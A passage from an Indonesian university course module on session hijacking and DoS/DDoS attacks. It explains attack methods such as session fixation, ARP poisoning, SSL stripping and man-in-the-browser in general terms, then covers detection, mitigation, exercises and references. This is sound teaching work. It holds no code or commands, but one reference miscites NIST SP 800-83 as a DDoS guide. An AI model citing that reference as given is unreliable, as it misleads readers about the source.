XSS untuk session hijacking bisa sangat efektif karena dapat melewati enkripsi HTTPS. Meskipun koneksi menggunakan HTTPS, script jahat tetap dapat membaca cookie di browser dan mengirimkannya keluar. Ini menunjukkan bahwa enkripsi saja tidak cukup, website juga harus aman dari kerentanan seperti XSS.

#### 2.2.4 Session Fixation

Session fixation adalah teknik yang berbeda dari metode sebelumnya. Alih-alih mencuri session ID yang sudah ada, penyerang memaksakan session ID tertentu kepada korban sebelum korban login. Kemudian, setelah korban login menggunakan session ID yang telah ditentukan penyerang, penyerang dapat menggunakan session ID yang sama untuk mengakses akun korban.

Cara kerja session fixation adalah sebagai berikut. Pertama, penyerang mendapatkan session ID yang valid dari website target. Kemudian, penyerang mengirimkan link ke korban yang berisi session ID tersebut, misalnya: `http://bank.com/login.php?sessionid=12345`. Jika website tidak menggenerate session ID baru setelah login berhasil, session ID 12345 akan tetap digunakan setelah korban login. Karena penyerang sudah tahu session ID ini, mereka dapat menggunakannya untuk mengakses akun korban.

Session fixation memanfaatkan kelemahan dalam implementasi session management yang tidak proper. Website yang aman seharusnya selalu menggenerate session ID baru setelah authentication berhasil, sehingga session ID yang diberikan sebelum login tidak bisa digunakan setelah login.

#### 2.2.5 Man-in-the-Middle (MITM) Attack

Man-in-the-Middle attack adalah situasi di mana penyerang menempatkan diri mereka di antara korban dan server, memungkinkan mereka untuk menyadap, memodifikasi, atau bahkan memblokir komunikasi antara keduanya. Dalam konteks session hijacking, MITM memungkinkan penyerang untuk menangkap session ID saat sedang transit antara client dan server.

MITM attack dapat dilakukan dengan berbagai cara. Salah satu cara yang umum adalah melalui ARP poisoning di jaringan lokal. ARP atau Address Resolution Protocol digunakan untuk memetakan alamat IP ke alamat MAC dalam jaringan lokal. Dengan mengirimkan ARP reply yang palsu, penyerang dapat membuat perangkat lain di jaringan percaya bahwa alamat MAC penyerang adalah alamat MAC dari router. Akibatnya, semua lalu lintas yang ditujukan ke internet akan melewati komputer penyerang terlebih dahulu.

Cara lain melakukan MITM adalah melalui rogue access point atau evil twin. Penyerang membuat access point WiFi dengan nama yang mirip atau sama dengan access point legitimate, misalnya "Starbucks_WiFi" untuk kafe Starbucks. Pengguna yang tidak curiga akan terhubung ke access point palsu ini. Semua lalu lintas mereka kemudian melewati perangkat penyerang.

SSL stripping adalah teknik MITM yang lebih canggih. Ketika korban mencoba mengakses website HTTPS, penyerang mengintersep koneksi dan menurunkan ke HTTP pada sisi korban, sementara tetap menjaga koneksi HTTPS ke server asli. Dari perspektif korban, mereka mengakses website dengan HTTP biasa. Dari perspektif server, ada klien HTTPS yang legitimate. Penyerang di tengah dapat melihat semua data dalam plaintext, termasuk session cookie.

#### 2.2.6 Man-in-the-Browser (MITB) Attack

Man-in-the-Browser adalah variasi yang lebih canggih dari MITM di mana malware diinstal langsung di browser korban. Malware ini dapat memodifikasi halaman web, menangkap input pengguna, atau mengeksekusi transaksi berbahaya tanpa sepengetahuan pengguna.

MITB sangat berbahaya untuk transaksi perbankan online. Misalnya, korban login ke internet banking dan melihat saldo rekening mereka normal di layar. Mereka kemudian melakukan transfer ke rekening A. Namun, malware MITB di browser mereka diam-diam mengubah nomor rekening tujuan menjadi rekening B yang dikontrol penyerang. Transaksi yang dilihat korban di layar adalah transfer ke rekening A, tetapi transaksi yang sebenarnya dikirim ke server adalah transfer ke rekening B.

Yang membuat MITB sangat sulit dideteksi adalah bahwa serangan ini terjadi setelah mekanisme keamanan seperti SSL/TLS. Koneksi antara browser dan server tetap terenkripsi dan legitimate. Modifikasi terjadi di dalam browser sebelum atau setelah enkripsi/dekripsi, sehingga server tidak dapat mendeteksi adanya manipulasi.

Trojan Zeus dan SpyEye adalah contoh malware MITB yang terkenal. Malware ini menginfeksi jutaan komputer dan mencuri ratusan juta dollar dari rekening bank korban. Mereka menggunakan teknik web injection untuk memodifikasi halaman web secara real-time dan menangkap informasi sensitif.

### 2.3 Metode Session Hijacking Lainnya

Selain metode-metode yang sudah dijelaskan, ada beberapa teknik session hijacking lain yang perlu kita ketahui.

#### 2.3.1 Predictable Session ID

Beberapa aplikasi web menggunakan algoritma yang dapat diprediksi untuk menggenerate session ID. Misalnya, menggunakan timestamp, counter sequensial, atau kombinasi keduanya. Jika penyerang dapat mengetahui pola atau algoritma yang digunakan, mereka dapat memprediksi session ID yang valid dan mencoba session ID tersebut.

Contoh implementasi buruk adalah menggunakan session ID yang hanya merupakan user ID yang di-encode dengan Base64 atau MD5 dari timestamp. Penyerang dapat dengan mudah mendecode atau brute force untuk menemukan session ID yang valid.

#### 2.3.2 Session Replay Attack

Dalam session replay attack, penyerang menangkap valid session ID dan kemudian "memutar ulang" atau menggunakan session ID tersebut di kemudian hari. Ini bisa efektif jika session tidak memiliki timeout yang tepat atau jika session ID tidak diinvalidasi setelah logout.

Misalnya, penyerang berhasil menangkap session cookie korban pada hari Senin. Pada hari Selasa, korban sudah logout dan menggunakan komputer lain. Namun, jika server tidak properly menginvalidasi session saat logout, penyerang masih dapat menggunakan session ID yang ditangkap kemarin untuk mengakses akun korban.

#### 2.3.3 Brute Force Session ID

Jika session ID cukup pendek atau menggunakan character set terbatas, penyerang dapat mencoba brute force untuk menemukan session ID yang valid. Misalnya, jika session ID hanya terdiri dari 6 digit angka (000000-999999), ada 1 juta kemungkinan kombinasi yang dapat dicoba dalam waktu relatif singkat.

Website yang baik menggunakan session ID yang panjang (minimal 128 bit) dan menggunakan character set yang luas (alphanumeric dan simbol) untuk membuat brute force attack tidak feasible. Dengan 128 bit randomness, jumlah kemungkinan kombinasi adalah 2^128 atau sekitar 3.4 × 10^38, yang praktis tidak mungkin di-brute force bahkan dengan komputer super.

#### 2.3.4 Session Donation

Session donation adalah teknik di mana penyerang login ke aplikasi web dengan akun mereka sendiri, mendapatkan session ID, dan kemudian menipu korban untuk menggunakan session ID tersebut. Ini bisa dilakukan dengan teknik social engineering atau phishing.

Misalnya, penyerang mengirim email phishing yang berisi link ke halaman login bank dengan session ID penyerang sudah tertanam. Korban yang tidak curiga mengklik link dan memasukkan username dan password mereka. Aplikasi mengasosiasikan credential korban dengan session ID yang sudah ada (milik penyerang). Sekarang penyerang memiliki session yang terauthentikasi sebagai korban.

### 2.4 Dampak Session Hijacking

Session hijacking dapat menimbulkan dampak serius tergantung pada jenis aplikasi dan level akses yang dimiliki session yang dibajak.

Untuk aplikasi perbankan online, session hijacking dapat menyebabkan pencurian uang dari rekening korban. Penyerang dapat melakukan transfer, pembayaran tagihan, atau transaksi lain menggunakan akun korban. Kerugian finansial bisa sangat besar, dan proses recovery seringkali rumit dan memakan waktu.

Untuk akun email, session hijacking memberi penyerang akses ke semua email korban, termasuk informasi pribadi, bisnis, dan finansial. Penyerang juga dapat menggunakan akses ini untuk mereset password akun-akun lain dengan fitur "forgot password", sehingga dapat mengambil alih akun media sosial, e-commerce, atau layanan online lainnya.

Untuk aplikasi e-commerce, penyerang dapat melakukan pembelian menggunakan metode pembayaran yang tersimpan, mengubah alamat pengiriman, atau mencuri informasi kartu kredit yang tersimpan. Mereka juga dapat mengakses history pembelian dan informasi pribadi korban.

Untuk akun media sosial, penyerang dapat memposting konten yang merusak reputasi korban, mengakses pesan pribadi, atau menyebarkan malware atau phishing link ke teman-teman korban. Dampak sosial dan reputasi bisa sangat signifikan terutama untuk public figure atau professional.

Untuk aplikasi enterprise atau sistem internal perusahaan, session hijacking dapat memberi penyerang akses ke data sensitif perusahaan, sistem internal, atau kemampuan untuk melakukan tindakan yang merugikan organisasi. Ini bisa menyebabkan data breach, kehilangan intellectual property, atau sabotase operasional.



---

## BAGIAN 3: DETEKSI DAN MITIGASI

### 3.1 Deteksi Serangan DoS/DDoS

Mendeteksi serangan DoS/DDoS sedini mungkin adalah kunci untuk meminimalkan dampak. Ada beberapa indikator dan metode deteksi yang dapat digunakan.

#### 3.1.1 Indikator Serangan DoS/DDoS

Tanda-tanda yang perlu diwaspadai sebagai indikasi serangan DoS/DDoS meliputi peningkatan lalu lintas yang drastis dan tiba-tiba. Jika traffic website Anda normalnya 1000 request per menit tiba-tiba melonjak menjadi 100.000 request per menit tanpa ada kampanye marketing atau event khusus, ini bisa menjadi indikasi serangan.

Penurunan performa yang signifikan juga merupakan indikator penting. Website menjadi sangat lambat atau sering timeout, aplikasi tidak merespons, atau server menunjukkan CPU dan memory usage yang sangat tinggi tanpa sebab yang jelas. Pengguna legitimate akan mengeluh tidak bisa mengakses layanan.

Pola lalu lintas yang tidak normal juga perlu diperhatikan. Misalnya, banyak request dari alamat IP yang sama, request dengan user agent yang identik, request yang meminta resource yang sama berulang kali, atau request dari geografis yang tidak biasa. Jika layanan Anda normalnya diakses dari Indonesia tiba-tiba menerima ribuan request dari negara yang jarang mengakses layanan Anda, ini bisa mencurigakan.

Log server yang menunjukkan banyak connection timeout, error messages yang tidak biasa, atau attempt connection yang failed dalam jumlah besar juga bisa menjadi indikator. Network monitoring tools mungkin menunjukkan bandwidth utilization yang mencapai maksimum atau packet loss yang tinggi.

#### 3.1.2 Tools dan Teknik Deteksi

Berbagai tools dapat digunakan untuk mendeteksi serangan DoS/DDoS. Intrusion Detection System (IDS) seperti Snort atau Suricata dapat dikonfigurasi dengan rules untuk mendeteksi pola serangan DoS/DDoS. IDS dapat mendeteksi signature serangan yang dikenal seperti SYN flood, UDP flood, atau ICMP flood berdasarkan karakteristik paket.

Network flow analysis tools seperti Netflow atau sFlow dapat memberikan visibility tentang pola lalu lintas jaringan. Dengan menganalisis flow data, administrator dapat mengidentifikasi anomali seperti peningkatan traffic dari sumber tertentu atau ke destination tertentu yang tidak biasa.

Security Information and Event Management (SIEM) systems mengumpulkan dan menganalisis log dari berbagai sumber termasuk firewall, router, server, dan aplikasi. SIEM dapat mengkorelasikan events dari berbagai sumber untuk mendeteksi serangan yang kompleks dan memberikan alert real-time.

Traffic analysis dan baseline monitoring juga penting. Dengan membangun baseline traffic normal untuk sistem Anda, Anda dapat lebih mudah mendeteksi anomali. Tools seperti MRTG, Cacti, atau modern monitoring solutions seperti Prometheus dan Grafana dapat memvisualisasikan traffic patterns dan memberikan alert ketika traffic menyimpang signifikan dari baseline.

Untuk deteksi DDoS berbasis cloud, banyak cloud service providers menyediakan DDoS protection services dengan detection capabilities built-in. Services seperti AWS Shield, Cloudflare DDoS Protection, atau Akamai Prolexic dapat mendeteksi dan mitigate DDoS attacks secara otomatis.

### 3.2 Strategi Mitigasi Serangan DoS/DDoS

Mitigasi serangan DoS/DDoS memerlukan pendekatan berlapis yang mengombinasikan berbagai strategi dan teknologi.

#### 3.2.1 Mitigasi Level Network

Pada level network, beberapa teknik dapat diimplementasikan. Rate limiting adalah teknik membatasi jumlah request yang dapat diterima dari sumber tertentu dalam periode waktu tertentu. Misalnya, membatasi satu IP address hanya dapat melakukan 100 request per menit. Jika threshold terlampaui, request tambahan akan di-drop atau diberikan respons delayed.

Blackholing atau null routing adalah teknik mengarahkan traffic yang mencurigakan ke "black hole" atau destination yang tidak valid sehingga traffic tersebut di-drop. Ini efektif untuk menghentikan serangan tetapi harus digunakan dengan hati-hati karena dapat juga memblokir traffic legitimate jika tidak dikonfigurasi dengan tepat.

Traffic filtering menggunakan Access Control Lists (ACL) atau firewall rules dapat memblokir traffic berdasarkan kriteria tertentu seperti source IP, destination port, atau protokol. Untuk serangan DDoS, geo-blocking dapat digunakan untuk memblokir traffic dari negara-negara yang tidak relevan dengan bisnis Anda.

Anycast network routing adalah teknik di mana multiple servers di lokasi geografis yang berbeda menggunakan alamat IP yang sama. Traffic secara otomatis di-route ke server terdekat. Jika satu lokasi diserang, traffic dapat di-route ke lokasi lain, sehingga serangan tidak mengganggu seluruh layanan.

#### 3.2.2 Mitigasi Level Transport dan Session

Pada level transport layer, SYN cookies dapat digunakan untuk melindungi dari SYN flood attack. Dengan SYN cookies, server tidak perlu menyimpan informasi koneksi setengah terbuka dalam memori. Informasi disimpan dalam sequence number yang dikirim kembali ke client, sehingga server hanya perlu mengalokasikan resource ketika koneksi fully established.

Connection rate limiting membatasi jumlah koneksi baru yang dapat dibuat dari sumber tertentu. Ini mencegah serangan yang mencoba membuka banyak koneksi secara bersamaan untuk menghabiskan resource server.

TCP timeout optimization mengurangi waktu tunggu untuk koneksi yang tidak selesai. Dengan mengurangi TCP timeout, resource dapat lebih cepat di-deallocate untuk koneksi yang tidak legitimate, membuat server lebih resilient terhadap serangan.

#### 3.2.3 Mitigasi Level Application

Pada application layer, CAPTCHA dapat digunakan untuk memverifikasi bahwa request berasal dari manusia, bukan bot. Ini efektif untuk melawan automated attacks tetapi dapat mengganggu user experience sehingga harus digunakan dengan bijak.

Web Application Firewall (WAF) dapat menganalisis HTTP request dan memblokir request yang mencurigakan berdasarkan patterns atau signatures. WAF dapat melindungi dari berbagai serangan application layer termasuk HTTP flood, slowloris, dan application-specific attacks.

Load balancing mendistribusikan traffic ke multiple servers sehingga tidak ada single point of failure. Jika satu server overwhelmed, server lain masih dapat melayani request. Modern load balancers juga memiliki kemampuan untuk mendeteksi dan mitigate serangan DDoS.

Content Delivery Network (CDN) dapat meng-cache content statis dan mendistribusikannya dari multiple edge locations di seluruh dunia. Ini tidak hanya meningkatkan performa tetapi juga membuat website lebih resilient terhadap DDoS karena serangan harus menghadapi infrastructure CDN yang massive.

#### 3.2.4 DDoS Protection Services

Untuk organisasi yang tidak memiliki resources atau expertise untuk membangun DDoS protection infrastructure sendiri, menggunakan specialized DDoS protection service adalah pilihan yang baik. Services ini menyediakan:

Scrubbing centers yang menerima semua traffic ke website Anda, membersihkan traffic malicious, dan hanya meneruskan traffic legitimate ke server Anda. Cloud-based protection dengan massive infrastructure yang dapat menyerap serangan DDoS terbesar sekalipun.

Always-on protection yang terus-menerus memonitor traffic dan secara otomatis mengaktifkan mitigasi ketika serangan terdeteksi. 24/7 Security Operations Center (SOC) dengan expert yang dapat merespons serangan secara real-time.

Providers seperti Cloudflare, Akamai, Arbor Networks, dan Imperva menawarkan DDoS protection services dengan berbagai tingkat protection dan price points. Untuk layanan kritis, investasi dalam professional DDoS protection service sangat direkomendasikan.

### 3.3 Mitigasi Session Hijacking

Melindungi dari session hijacking memerlukan implementasi best practices dalam session management dan keamanan aplikasi web.

#### 3.3.1 Implementasi HTTPS

Menggunakan HTTPS untuk seluruh website, bukan hanya halaman login, adalah pertahanan fundamental terhadap session sniffing dan sidejacking. HTTPS mengenkripsi semua komunikasi antara browser dan server termasuk session cookies, sehingga penyerang yang menyadap traffic tidak dapat membaca session ID.

HTTP Strict Transport Security (HSTS) harus dikonfigurasi untuk memastikan browser selalu menggunakan HTTPS bahkan jika pengguna mengetik http:// di address bar. HSTS header memberitahu browser bahwa website hanya boleh diakses via HTTPS untuk periode waktu tertentu.

#### 3.3.2 Secure Cookie Attributes

Session cookies harus dikonfigurasi dengan security attributes yang tepat. Attribute "Secure" memastikan cookie hanya dikirim via HTTPS, tidak via HTTP plaintext. Attribute "HttpOnly" mencegah JavaScript dari mengakses cookie, sehingga melindungi dari XSS-based session hijacking.

Attribute "SameSite" membatasi kapan cookie dikirim dengan cross-site requests, memberikan proteksi terhadap CSRF dan beberapa bentuk session hijacking. Setting "SameSite=Strict" memberikan proteksi maksimum tetapi dapat mengganggu beberapa functionality. "SameSite=Lax" adalah balance yang baik antara security dan usability.

#### 3.3.3 Session ID Management yang Baik

Session ID harus di-generate menggunakan cryptographically secure random number generator dengan entropy yang cukup. Session ID harus cukup panjang (minimal 128 bit) untuk membuat brute force attack tidak feasible.

Session ID baru harus di-generate setelah authentication berhasil untuk mencegah session fixation. Session lama harus diinvalidasi saat user logout. Session juga harus memiliki timeout yang appropriate, misalnya 30 menit inactivity untuk aplikasi umum atau lebih pendek untuk aplikasi sensitif seperti banking.

#### 3.3.4 Additional Session Binding

Session binding menambahkan layer security dengan mengasosiasikan session tidak hanya dengan session ID tetapi juga dengan properties lain dari client. Misalnya, menyimpan IP address atau User-Agent string saat session dibuat, dan memverifikasi properties ini pada setiap request.

Namun, session binding harus diimplementasikan dengan hati-hati. IP address bisa berubah saat user berpindah dari WiFi ke mobile data. User-Agent string bisa berbeda saat user menggunakan multiple devices. Implementasi yang terlalu strict bisa mengganggu user experience, sedangkan implementasi yang terlalu loose tidak memberikan proteksi yang cukup.

#### 3.3.5 Multi-Factor Authentication

Multi-Factor Authentication (MFA) atau Two-Factor Authentication (2FA) memberikan layer proteksi tambahan. Bahkan jika penyerang berhasil mendapatkan session ID, mereka mungkin diminta untuk memberikan faktor authentication tambahan untuk transaksi sensitif.

Misalnya, banking applications sering meminta OTP (One-Time Password) via SMS atau authenticator app untuk transaksi transfer. E-commerce platforms mungkin meminta verifikasi tambahan untuk perubahan shipping address atau payment method.

#### 3.3.6 Monitoring dan Anomaly Detection

Aplikasi harus memonitor session activity untuk mendeteksi anomali yang bisa mengindikasikan session hijacking. Red flags termasuk session yang digunakan dari multiple IP addresses secara bersamaan, session yang digunakan dari geografis yang berubah drastis dalam waktu singkat, atau perubahan User-Agent string pada session yang sama.

Ketika anomali terdeteksi, aplikasi dapat mengambil tindakan seperti meminta re-authentication, mengirim notification ke user, atau bahkan terminate session. User juga harus diberikan kemampuan untuk melihat active sessions mereka dan terminate sessions yang mencurigakan.

#### 3.3.7 Input Validation dan Protection terhadap XSS

Karena XSS adalah salah satu cara untuk melakukan session hijacking, protecting aplikasi dari XSS vulnerabilities sangat penting. Semua user input harus di-validate dan di-sanitize. Output encoding harus digunakan saat menampilkan user-generated content untuk mencegah script injection.

Content Security Policy (CSP) headers harus dikonfigurasi untuk membatasi sumber dari mana script dapat dimuat dan dijalankan. Ini memberikan proteksi berlapis bahkan jika ada XSS vulnerability yang terlewat.

#### 3.3.8 Secure Development Practices

Fundamental security best practices dalam development harus diikuti. Ini termasuk regular security testing, code review dengan fokus pada security, menggunakan security frameworks dan libraries yang terpercaya, keeping software dan dependencies up-to-date dengan security patches, dan memberikan security training kepada development team.

Security awareness training untuk users juga penting. Users harus diedukasi tentang risiko mengakses sensitive websites dari WiFi publik, pentingnya logout setelah selesai, dan cara mengenali phishing attempts.


---

## RANGKUMAN

Pada pertemuan ini, kita telah mempelajari dua jenis serangan penting dalam keamanan siber: Denial of Service (DoS/DDoS) dan Session Hijacking.

Serangan Denial of Service bertujuan untuk membuat layanan menjadi tidak tersedia bagi pengguna yang sah dengan cara menghabiskan resource sistem atau bandwidth. DoS berasal dari satu sumber serangan, sedangkan DDoS melibatkan ribuan hingga jutaan perangkat yang terinfeksi membentuk botnet untuk menyerang secara bersamaan. Jenis-jenis serangan DoS meliputi volumetric attacks yang membanjiri dengan volume lalu lintas besar, protocol attacks yang mengeksploitasi kelemahan protokol jaringan, dan application layer attacks yang menargetkan aplikasi dengan request yang tampak legitimate tetapi menghabiskan resource.

Session Hijacking adalah serangan yang mencuri atau membajak session ID pengguna yang sah untuk mengakses akun korban tanpa perlu username dan password. Berbagai metode session hijacking telah kita pelajari termasuk session sniffing pada jaringan yang tidak terenkripsi, session sidejacking untuk menangkap session cookies, exploitation of XSS vulnerabilities, session fixation, dan man-in-the-middle atau man-in-the-browser attacks. Dampak session hijacking bisa sangat serius tergantung pada aplikasi yang diakses, mulai dari pencurian finansial hingga akses ke data sensitif perusahaan.

Strategi mitigasi untuk DoS/DDoS meliputi deteksi dini menggunakan IDS, SIEM, dan traffic analysis tools, serta implementasi berbagai teknik seperti rate limiting, traffic filtering, load balancing, CDN, dan penggunaan specialized DDoS protection services. Untuk session hijacking, mitigasi utama adalah implementasi HTTPS untuk seluruh website, konfigurasi secure cookie attributes, session ID management yang proper, session binding, multi-factor authentication, monitoring untuk anomaly detection, dan proteksi terhadap XSS vulnerabilities.

Pemahaman mendalam tentang kedua jenis serangan ini penting bagi profesional keamanan siber karena keduanya termasuk serangan yang paling sering terjadi dan dapat menimbulkan kerugian besar. Pertahanan yang efektif memerlukan pendekatan berlapis yang mengombinasikan teknologi, processes, dan awareness.

---

## LATIHAN DAN DISKUSI

### Pertanyaan Pemahaman

1. Jelaskan perbedaan mendasar antara serangan DoS dan DDoS, serta mengapa DDoS lebih sulit untuk dimitigasi.

2. Sebutkan dan jelaskan tiga jenis serangan DoS berdasarkan layer yang diserang. Berikan contoh spesifik untuk masing-masing jenis.

3. Apa yang dimaksud dengan botnet dan bagaimana botnet digunakan dalam serangan DDoS? Jelaskan proses pembentukan botnet.

4. Mengapa session management diperlukan dalam aplikasi web modern padahal HTTP bersifat stateless?

5. Jelaskan bagaimana serangan session sniffing dapat dilakukan pada jaringan WiFi publik dan mengapa HTTPS penting untuk mencegahnya.

6. Apa perbedaan antara session sidejacking dan session fixation? Jelaskan mekanisme masing-masing serangan.

7. Bagaimana XSS vulnerability dapat dimanfaatkan untuk melakukan session hijacking? Berikan contoh skenario serangan.

8. Sebutkan dan jelaskan empat strategi mitigasi yang dapat diimplementasikan untuk melindungi dari serangan DDoS.

9. Apa yang dimaksud dengan secure cookie attributes? Jelaskan fungsi dari attribute "Secure", "HttpOnly", dan "SameSite".

10. Mengapa multi-factor authentication efektif untuk melindungi dari session hijacking meskipun penyerang berhasil mendapatkan session ID?

### Pertanyaan Analisis

1. Sebuah perusahaan e-commerce mengalami penurunan performa drastis pada website mereka. Server menunjukkan CPU usage normal tetapi bandwidth utilization mencapai 100%. Log menunjukkan ribuan permintaan HTTP GET dari berbagai IP address yang meminta halaman homepage. Apakah ini serangan DoS/DDoS? Jika ya, jenis serangan apa ini dan bagaimana seharusnya perusahaan merespons?

2. Seorang pengguna bank online mengeluh bahwa akun mereka melakukan transfer yang tidak mereka lakukan. Investigasi menunjukkan bahwa transfer dilakukan dari IP address yang sama dengan IP address pengguna, tetapi browser fingerprint berbeda. Apa yang mungkin terjadi? Jenis serangan session hijacking apa yang paling mungkin dan bagaimana seharusnya bank mencegah ini di masa depan?

3. Bandingkan efektivitas dan limitasi dari rate limiting versus CAPTCHA untuk melindungi aplikasi web dari serangan HTTP flood. Dalam situasi apa masing-masing metode lebih appropriate?

4. Sebuah startup teknologi sedang membangun aplikasi web baru. Mereka memiliki budget terbatas. Prioritaskan lima implementasi security untuk melindungi dari session hijacking, dari yang paling penting hingga yang bisa ditunda. Jelaskan alasan prioritas Anda.

5. Diskusikan trade-off antara security dan usability dalam implementasi session timeout. Apa yang harus dipertimbangkan saat menentukan durasi session timeout yang appropriate untuk (a) aplikasi banking online, (b) social media, dan (c) e-commerce?

### Studi Kasus

**Kasus 1: Serangan DDoS pada Layanan Streaming Video**

Sebuah platform streaming video populer mengalami serangan DDoS massive pada malam hari saat peak viewing time. Serangan mencapai 500 Gbps dan berasal dari lebih dari 100.000 alamat IP yang berbeda dari seluruh dunia. Platform menggunakan CDN tetapi tetap mengalami downtime selama 3 jam. Kerugian estimasi mencapai Rp 5 miliar dari lost revenue dan customer churn.

Pertanyaan:
- Identifikasi jenis serangan DDoS yang mungkin terjadi dan mengapa CDN tidak cukup untuk melindungi dalam kasus ini.
- Apa strategi mitigasi tambahan yang seharusnya diimplementasikan oleh platform?
- Setelah serangan, langkah-langkah apa yang harus diambil untuk mencegah serangan serupa di masa depan?
- Diskusikan apakah platform harus membayar tebusan jika penyerang mengirim ransom demand.

**Kasus 2: Session Hijacking pada Internet Banking**

Seorang nasabah bank mengakses internet banking dari laptop di coffee shop menggunakan WiFi publik. Nasabah melakukan beberapa transaksi transfer dan kemudian logout. Beberapa jam kemudian, nasabah menerima notifikasi bahwa ada transfer mencurigakan sebesar Rp 50 juta dari akunnya. Investigasi bank menunjukkan bahwa transfer dilakukan menggunakan session yang sama dengan session nasabah, meskipun nasabah sudah logout.

Pertanyaan:
- Bagaimana penyerang mungkin mendapatkan session ID nasabah?
- Mengapa logout tidak menginvalidasi session dengan segera?
- Apa kelemahan dalam implementasi session management bank yang memungkinkan serangan ini terjadi?
- Rekomendasi security improvements apa yang harus diimplementasikan oleh bank?
- Apa yang seharusnya dilakukan nasabah untuk melindungi diri saat menggunakan WiFi publik?

### Pertanyaan Diskusi Kelas

1. Dengan semakin banyaknya perangkat IoT yang tidak aman, apakah kita akan melihat serangan DDoS yang semakin besar di masa depan? Bagaimana industri dan regulator harus merespons?

2. Apakah menggunakan VPN saat mengakses internet dari WiFi publik cukup untuk melindungi dari session hijacking? Diskusikan kelebihan dan keterbatasan VPN untuk security.

3. Beberapa negara telah membuat melakukan DDoS attack illegal dengan hukuman penjara. Apakah hukum seperti ini efektif sebagai deterrent? Mengapa atau mengapa tidak?

4. Diskusikan ethical implications dari DDoS sebagai bentuk protest atau "hacktivism". Apakah ada situasi di mana DDoS dapat dibenarkan sebagai bentuk free speech atau civil disobedience?

5. Dengan adoption cloud computing yang semakin luas, bagaimana ini mengubah landscape DDoS protection? Apakah cloud membuat organizations lebih atau kurang vulnerable terhadap DDoS?

---

## REFERENSI

1. EC-Council. (2023). CEH v13 Module 10: Denial-of-Service. EC-Council.

2. EC-Council. (2023). CEH v13 Module 11: Session Hijacking. EC-Council.

3. Kurose, J. F., & Ross, K. W. (2021). Computer Networking: A Top-Down Approach (8th ed.). Pearson.

4. Stallings, W. (2020). Network Security Essentials: Applications and Standards (7th ed.). Pearson.

5. OWASP Foundation. (2023). OWASP Top Ten. https://owasp.org/www-project-top-ten/

6. NIST. (2020). Guide to DDoS Attacks (Special Publication 800-83). National Institute of Standards and Technology.

7. Cloudflare. (2023). What is a DDoS Attack? https://www.cloudflare.com/learning/ddos/what-is-a-ddos-attack/

8. SANS Institute. (2023). Protecting Against Session Hijacking. SANS Security Resources.

9. Arbor Networks. (2023). Worldwide Infrastructure Security Report. Arbor Networks.

10. Mitre Corporation. (2023). ATT&CK Framework - Denial of Service Techniques. https://attack.mitre.org/

---

**Catatan untuk Mahasiswa:**

Modul ini adalah bagian dari mata kuliah Pengantar Keamanan Siber. Pastikan Anda memahami konsep-konsep yang dijelaskan dalam modul ini sebelum melanjutkan ke praktikum. Jika ada konsep yang kurang jelas, jangan ragu untuk bertanya kepada dosen atau asisten dosen.

Praktikum untuk pertemuan ini akan membahas simulasi serangan DoS dalam lingkungan lab yang terkontrol serta demonstrasi session hijacking. Sangat penting untuk diingat bahwa semua praktik harus dilakukan HANYA dalam lingkungan lab yang terisolasi dan dengan izin eksplisit. Melakukan serangan DoS atau session hijacking pada sistem nyata tanpa izin adalah ILEGAL dan dapat dikenakan hukuman pidana.

Sebagai calon profesional keamanan siber, Anda harus selalu menjunjung tinggi etika dan hukum yang berlaku. Pengetahuan yang Anda peroleh harus digunakan untuk melindungi sistem dan data, bukan untuk merugikan pihak lain.
